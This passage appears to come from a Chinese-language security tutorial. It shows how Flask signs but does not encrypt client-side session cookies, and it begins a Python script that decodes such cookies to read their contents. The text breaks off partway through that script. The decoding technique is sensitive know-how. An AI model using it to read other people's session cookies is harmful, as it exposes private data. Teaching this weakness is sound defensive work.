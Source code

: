 ```py
    # 序列化session的主要过程
    def dump_payload(self, obj):
        # json.dumps 将对象转换成json字符串，作为数据
        json = super(URLSafeSerializerMixin, self).dump_payload(obj)
        is_compressed = False
        # 如果数据压缩后长度更短，则用zlib库进行压缩
        compressed = zlib.compress(json)   
        if len(compressed) < (len(json) - 1):
            json = compressed
            is_compressed = True
        # 将数据用base64编码
        base64d = base64_encode(json)
        if is_compressed:
            # 通过hmac算法计算数据的签名，将签名附在数据后，用“.”分割
            base64d = b'.' + base64d  
            # 解决了用户篡改session的问题，因为在不知道secret_key的情况下，是无法伪造签名的。
            # flask仅仅对数据进行了签名。
            # 签名的作用是防篡改，而无法防止被读取。
            # 而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，可能造成一些安全问题。
        return base64d


class URLSafeTimedSerializer(URLSafeSerializerMixin, TimedSerializer):
    """Works like :class:`TimedSerializer` but dumps and loads into a URL
    safe string consisting of the upper and lowercase character of the
    alphabet as well as ``'_'``, ``'-'`` and ``'.'``.
    """
    default_serializer = compact_json
```

最后，我们在cookie中就能看到设置好的session了：

![18db98ef-c8ec-435e-a21a-f8eaa8c97631.95a9fc66c7c4](https://i.imgur.com/rxZaB6T.png)


---

## flask客户端session导致敏感信息泄露


flask是一个客户端session，所以看目标为flask的站点的时候，解密其session。

解密session：
```py
# decryption.py
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
```